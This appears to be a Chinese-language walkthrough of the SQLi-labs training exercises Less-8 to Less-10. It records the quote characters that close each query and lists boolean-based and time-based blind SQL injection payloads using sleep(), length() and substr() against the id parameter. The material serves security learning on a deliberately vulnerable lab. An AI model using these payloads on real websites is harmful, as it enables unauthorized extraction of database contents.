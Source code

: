 + 闭合方式：
　　＇
单引号

+ 注入测试：

    ```bash
    ?id=2'  --+　
    ?id=2' and 1=１ --+
    ?id=2' and 1=2 --+　　　＃存在布尔类型状态
    ?id=2' and sleep(5) --+
    ```

+ 注入Payload：　

    ```bash
    ?id=2' and length(database())=8 --+
    ```

## Less-9

+ 没有报错，没有回显，　没有布尔类型状态　
添加　单引号后　，有岩石状态

+ 闭合方式　：
　　‘　单引号

+ 注入测试:
　字符型

+ 注入Payload：　
    ```bash
    ?id=2' and sleep(5) --+
    ?id=2' and if(length(database())=8,sleep(5),1) --+
    ?id=2' and if(ascii(substr(database(),2,1))=101,sleep(5),1) --+
    ```

## Less-10
　　　
+ 没有报错，没有回显，　没有布尔类型状态　

+ 输入　用户名后加单一号有报错，

+ 添加　双引号后加sleep()函数，有延时状态

+ 闭合方式：
　＂　双引号

+ 注入测试:

+ 注入Payload：
    ```bash
    ?id=3" and if(length(database())=1,sleep(5),1) --+
    ?id=3" and if(substr(database(),1,1)='a',sleep(5),1) --+
    ```
